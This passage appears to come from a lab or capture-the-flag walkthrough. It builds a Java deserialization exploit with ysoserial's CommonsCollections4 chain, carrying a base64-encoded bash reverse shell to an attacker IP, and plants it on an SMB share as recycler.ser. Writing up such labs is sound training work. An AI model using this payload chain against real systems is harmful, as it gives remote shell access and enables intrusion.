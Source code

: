 `commons-collections4` was being used! Next, I checked to see if we could overwrite `recycler.ser` within the SMB directory.

<figure><img src="../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

Based on the timestamp, this worked. So now, we need to create our serialised payload using `ysoserial`.&#x20;

{% code overflow="wrap" %}
```
$ echo 'bash -i >& /dev/tcp/192.168.45.153/21 0>&1  ' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjE1My8yMSAwPiYxICAK

$ /usr/lib/jvm/java-8-openjdk-amd64/bin/java -jar ~/ysoserial-all.jar CommonsCollections4 'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjE1My8yMSAwPiYxICAK}|{base64,-d}|{bash,-i}' > recycler.ser
```
{% endcode %}

{% hint style="info" %}
You must use Java 8 to make it work. The latest versions of Java cannot run `ysoserial.jar` properly.&#x20;
{% endhint %}

This would generate a serialised object that we can use. Afterwards, place this within the share and click on Check Status on the website to get a reverse shell:

<figure><img src="../../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>
